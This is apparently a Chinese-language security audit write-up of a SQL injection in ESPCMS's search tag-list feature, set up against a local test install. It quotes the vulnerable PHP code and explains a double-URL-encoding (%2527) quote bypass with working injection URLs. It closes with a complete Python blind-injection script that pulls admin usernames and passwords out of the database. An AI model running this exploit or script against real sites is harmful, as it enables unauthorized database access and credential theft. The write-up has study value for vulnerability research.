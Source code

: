 ## espcms搜索注入

### 环境准备
- phpstudy
- phpstorm
- espcms 源码
    - 下载地址：http://down.chinaz.com/soft/27695.htm

### 审计

漏洞点在interface/search.php处in_taglist()函数下,代码如下：

```php
	function in_taglist() {
		parent::start_pagetemplate();
		include_once admin_ROOT . 'public/class_pagebotton.php';

		$page = $this->fun->accept('page', 'G');
		$page = isset($page) ? intval($page) : 1;
		$lng = (admin_LNG == 'big5') ? $this->CON['is_lancode'] : admin_LNG;
		$tagkey = urldecode($this->fun->accept('tagkey', 'R'));

		$db_where = ' WHERE lng=\'' . $lng . '\' AND isclass=1';
		if (empty($tagkey)) {
			$linkURL = $_SERVER['HTTP_REFERER'];
			$this->callmessage($this->lng['search_err'], $linkURL, $this->lng['gobackbotton']);
		}
		if (!empty($tagkey)) {
			$db_where.=" AND FIND_IN_SET('$tagkey',tags)";
		}
```

分析一下，首先调用了父类方法start_pagetemplate(),然后包含class_pagebotton.php，这两行代码看名字可知是模板渲染的方法文件，不太重要，继续看往下一行，调用了accept()方法，前面说过，G这个调用了获取GET值也就是$page进行addslashes()函数过滤。

关键代码:
```php
$tagkey = urldecode($this->fun->accept('tagkey', 'R'));
```


这段就说将获取到的`$tagkey`变量进行`urldecode`解码一次。这里可以利用二次url编码来绕过GPC也就是单双引号的过滤。跟踪一下能用到`$tagkey`的地方。

```php
if (!empty($tagkey)) {
	$db_where.=" AND FIND_IN_SET('$tagkey',tags)";
}
```


接着寻找能调用它们的文件方法，在index.php第62-75行有

```php
	if (in_array($archive, array('article', 'forum', 'search', 'bbssearch', 'forummain', 'special', 'respond', 'public', 'scriptout', 'enquiry', 'enquirymain', 'form', 'formmain', 'ordermain', 'membermain', 'member', 'forum', 'order'))) {
		$action = 'in_' . $action;
		if (!file_exists(admin_ROOT . "interface/$archive.php")) {
			exit('Access error!');
```

也就是说访问`http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1`

为了便于观察，我们可以这样写:

![image](./img/esp.png)

接着讲如何绕过单引号，要经过两次url编码，一次是浏览器默认一次url解码，一次是代码里的urldecode解码，也就是说一次`'`编码成`%27`,然后`%27`编码成`%2527`,尝试访问

`http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527`

![image](./img/espcms-search2.png)

显示为`1'`且数据库报错，说明成功绕过。

`http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527,tags) or 1=1%23`

不能用-- +的原因是+被urldecode了

![image](./img/espcms-search3.png)

http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527,tags) or 1=1%23

写了个盲注脚本如下:
```py
import requests
import string

# str1 = '1234567890' + string.ascii_letters +string.punctuation # 数字+大小写字母+标点符号
str1 = '1234567890_' + string.ascii_letters + ','
url = "http://127.0.0.1/upload/index.php?ac=search&at=taglist&tagkey=1%2527"
ans= ''

# for i in range(1,100):
#     payload = r',tags) or ((select length({})={}))=1%23'.format(payload2,i)
#     r = requests.get(url+payload)
#     # print(url+payload)
#     if "暂无相关信息" not in r.text:
#         print("用户名长度:" + str(i))


select0 = 'select user()'
select1 = 'select database()'
select2 = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
select3 = 'select group_concat(column_name) from information_schema.columns where table_schema=database()'
select4 = 'select group_concat(username,password) from esp_admin_member'

for i in range(1,88):
    for j in str1:
        payload = r',tags) or (substr(({}),{},1))=%2527{}%2527%23'.format(select4,i,j)
        # print(url+payload)
        r = requests.get(url+payload)
        if "暂无相关信息" not in r.text:
            ans += j
            print(ans)
            break
print(ans)
```
